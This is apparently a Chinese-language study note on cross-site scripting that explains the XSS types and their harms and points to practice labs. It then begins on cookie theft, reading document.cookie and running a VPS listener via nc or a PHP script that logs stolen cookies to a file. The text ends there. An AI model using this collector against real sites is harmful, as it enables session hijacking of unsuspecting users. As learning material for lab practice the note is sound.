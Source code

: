 # xSS

## 什么是XSS？

> 参考资料：《xss跨站脚本攻击刨析与防御》,[xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers):

- XSS也是一种代码注入攻击，和sql注入一样，都是我们输入的数据变成了功能执行。
- 跨站脚本攻击XSS(Cross Site Scripting)：指的是当用户输入的数据会输出到了html页面时，攻击者构造一段恶意的javascript代码，然后当用户浏览该页面时，该恶意js代码会被执行，执行想要的功能.
- js代码是浏览器执行的，而不是服务器执行的，所以攻击的是用户而不是服务器。
- xss分为三类：
    - 存储型XSS ：
        - 构造的恶意js代码是会存储在服务器数据库中的，是一种持久化的XSS。例如在个人信息或发表文章等地方，插入一段js代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，**当有用户访问该页面的时候就会触发该代码执行**。这种XSS比较危险，容易造成蠕虫，盗窃cookie等危害。
    - 反射型 ：
        - 非持久化的xss，不会存储在服务器中。比如有个搜索框，然后会将我们的输入输出出来，输入数据不存储在服务器中，这样攻击者输入恶意js代码，攻击者浏览器会执行该恶意js代码，但是攻击不到其他人啊，所以这时候会发送一个恶意链接给其他用户(当输入数据会显示在url里面时)，使得可以在其他用户的浏览器上执行该恶意js代码，大多数是用来盗取用户的Cookie信息。
    - DOMXSS：待补充
- xss漏洞的危害：
    - 窃取用户cookies，获取用户信息，利用用户身份对网站进行操作。
    - 进行恶意操作，例如篡改页面信息，删除文章等。
    - 控制受害者及其向其他网站发起进攻。
    - 结合csrf漏洞。
    - 网页嵌入挖矿脚本.
    - xss蠕虫
    - DOS攻击和DDOS攻击：创建一个死循环的代码就会导致这个问题

## 靶机搭建

- [pikachu](https://github.com/zhuifengshaonianhanlu/pikachu):本地搭建

- [alert(1) to win](https://alf.nu/alert1):在线

## XSS的利用

### 存储型XSS的利用:

- **盗取cookie:**

    - cookie的一些常用属性: Domain,Expires,HttpOnly(用于避免Cookie被Javascript访问),Name,Path,Value,Secure.

    - 当HttpOnly未设置时(有些网站会设置,有些不会,像知乎就没设置),js获取cookie代码`document.cookie`

    - 通过http请求携带cookie给我们:  

        - vps上设置php脚本或者利用nc开个端口监听就行

            ```php
            <?php
            $cookie = $_GET['cookie'];
            $log = fopen("cookie.txt", "a");
            fwrite($log, $cookie . "\n");
            fclose($log);
            ?>
            ```
